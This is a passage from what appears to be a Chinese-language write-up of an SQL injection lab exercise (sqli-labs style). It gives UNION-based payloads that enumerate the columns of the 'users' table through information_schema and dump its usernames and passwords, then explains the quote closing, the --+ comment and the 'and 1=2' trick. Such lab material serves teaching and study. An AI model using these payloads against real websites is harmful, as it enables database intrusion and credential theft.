 `1' and 1=2 union select 1, (select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'),3 --+`
![image-20211012205812654](./typora-user-images/image-20211012205812654.png)

因此得到网站中`security`数据下`users`表中的三个字段为`id`, `username`, `password`。

最后`?id=1' and 1=2 union select 1, (select group_concat(username) from users), (select group_concat(password) from users) --+`

![image-20211012203611392](./typora-user-images/image-20211012203611392.png)

`?id=1' and 1=2 union select 1,2, group_concat(concat_ws(0x7e,username,password)) from security.users -- +` 

用`~`拼接账号和密码，拼接会用到单引号，用十六进制转义。

concat_ws，用于拼接。

![image-20211012213723746](./typora-user-images/image-20211012213723746.png)

#### 讲解

- 为什么要用`'`，最后还要进行`--+`的注释。
  - 因为源码是`id='$id'`用单引号进行和源码中的`'$id`进行闭合，而源码多出来的右侧单引号则用`--+`进行注释掉。
- 为什么要使用`and 1=2`
  - 因为是基于报错的类型所以用`and 1=2`进行报错，而`union`又可以联合左右两侧一起执行，所以基于错误爆出我们想要得到的数据。
